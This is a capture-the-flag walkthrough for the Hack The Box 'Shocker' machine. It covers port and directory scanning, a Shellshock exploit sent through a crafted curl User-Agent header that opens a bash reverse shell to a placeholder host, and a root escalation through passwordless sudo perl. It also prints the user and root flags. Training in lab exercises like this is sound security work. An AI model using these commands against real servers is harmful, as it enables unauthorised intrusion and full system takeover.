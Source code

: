 # shocker

[link to the box](https://app.hackthebox.com/machines/Shocker)

1. [scanning](#scanning)
2. [exploiting](#exploiting)
3. [pwning](#pwning)

# scanning

as with anything, we must first scan for open ports.

```bash
$ nmap -sV -Pn 10.10.10.56
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

looks like we have we website hosted on port 80, lets go there.

http://10.10.10.56:80/

which is a blank webpage with an image embedded in it. sending an OPTIONS http request reveals nothing interesting.

but there are files stored on this webserver, like the image. lets run `gobuster` and see if we can spot anything else.

after trying a few wordlists, `small.txt` from the default kali wordlists gives us the following:

```bash
$ gobuster dir -w <wordlists dir>/dirb/small.txt --url http://10.10.10.56:80/
# entries omitted for clarity
...
/cgi-bin/ (Status: 403)
...
```

this directory is special, since it hosts scripts that can be/are run by the webserver. we use `dirbuster` (instead of gobuster) to find some files with common scripting language extensions for a linux host:

```bash
$ cat script-extensions.txt
# these are some of the many extensions we could search for
.pl
.php
.py
.sh
```

scanning into the directory using our extension list gets us the following:

```bash
$ dirb http://10.10.10.56:80/cgi-bin/ -x script-extensions.txt
---- Scanning URL: http://10.10.10.56:80/cgi-bin/ ----
+ http://10.10.10.56:80/cgi-bin/user.sh (CODE:200|SIZE:119)
```

by visiting this webpage we can run said `user.sh` script, but we cannot modify it directly.

![user.sh](img/usersh.png)

# exploiting

since we know that `.sh` files are basically always bash scripts, we can look up ways to leverage this:

![search results for "exploit bash script on web server"](img/searchresults.png)

[this webpage](https://www.ampliasecurity.com/blog/2014/09/24/exploiting_bash_remote_code_execution_vulnerability_CVE-2014-6271/) explains nicely how to use this exploit. any script called using `/bin/bash -c <command>` is vulnerable!

run the following to start a reverse shell. dont forget to start a netcat listener

```bash
$ curl -H "User-Agent: () { :;}; echo; echo \"/bin/bash -i >& /dev/tcp/<local ip>/<unused port> 0>&1\" | /bin/bash" http://10.10.10.56:80/cgi-bin/user.sh
```

we now have a reverse shell on the server!

running `whoami` tells us that we are user `shelly`. we can probably find the user flag in `/home/shelly/`.

```bash
$ cat /home/shelly/user.txt
9fea9acc39d8f1b6fb04b319a74c5bf3
```

now we need to find root. the simplest way is to see what permissions `shelly` user has.

# pwning

`/etc/sudoers` and `/etc/doas.conf` are unreadable and do not exist respectively. but we can still see what we can do as `scriptmanager` using `sudo -l`.

and with no password required, we have full access to `sudo /usr/bin/perl`. its pretty obvious how we can execute anything from perl.

using perl, upgrade the shell to root.

```
$ sudo perl -e 'exec "/bin/bash"'
$ whoami
root
```

to get the flag, cat the flag in root's home directory

```bash
$ cat /root/root.txt
b949166b17a9d67175cd0f923d4213de
```

congrats! youre winner.
